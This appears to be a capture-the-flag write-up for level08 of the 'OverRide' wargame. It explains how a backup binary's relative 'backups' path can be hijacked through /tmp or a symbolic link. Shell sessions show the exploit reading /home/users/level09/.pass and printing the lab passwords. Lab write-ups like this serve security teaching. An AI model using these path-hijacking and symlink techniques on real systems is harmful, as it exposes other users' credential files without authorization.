 # Hijacking relative path / Exploit symbolic link

```sh
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level08
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level08@192.168.56.101's password: 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

The program opens a file and creates its backup into `/home/users/level08/backups` by writing byte per byte.

The issue is that `./backups/` folder name is used as relative path. Relative path change depending on the working directory’s of the current location.

So the relative path can be hijacked by changing working directory to `/tmp` and creating a new `./backups/` folder containing absolute path of `.pass` of `level09`.

Other way is to create a symbolic link to `/home/users/level09/.pass` and pass to as argument to the binary.

## Exploit
By creating new `./backups/` folder in `/tmp`
```sh
level08@OverRide:/tmp$ cd /tmp/
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
With symbolic link
```sh
level08@OverRide:~$ chmod +rwx .
level08@OverRide:~$ ln -s /home/users/level09/.pass pass
level08@OverRide:~$ ./level08 pass
level08@OverRide:~$ cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
